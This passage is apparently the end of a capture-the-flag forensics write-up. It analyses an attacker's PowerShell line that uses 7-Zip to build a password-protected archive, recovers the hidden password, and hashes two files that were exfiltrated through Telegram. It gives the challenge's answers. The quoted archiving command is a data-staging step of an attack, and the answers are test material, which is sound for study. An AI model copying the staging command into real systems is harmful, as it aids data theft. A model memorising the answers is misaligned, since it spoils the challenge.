

As it can be seen from the PowerShell script, the attacker used this command to create a password-protected archive:
```ps1
& 'C:\Program Files\7-Zip\7z.exe' a -t7z -mx5 -parameter-none $w51 $l01 $w51s.FullName|Out-Null
```
To hide the password, they used the `-p` parameter which sets the password for the archive and without using any spaces, they concatenated the password. The command could also be written like this:
```ps1
& 'C:\Program Files\7-Zip\7z.exe' a -t7z -mx5 -p 'arameter-none' $w51 $l01 $w51s.FullName|Out-Null
```
* Asnwer: `arameter-none`

### [10/10] Submit the md5sum of the 2 files in the archive that the attacker exfiltrated.

To answer the last question we will first download the compressed archive from the Telegram chat.



And then decompress it.



Now we can calculate the `md5sum` of each file and sort them.



* Asnwer: `83aa3b16ba6a648c133839c8f4af6af9_ffcedf790ce7fe09e858a7ee51773bcd`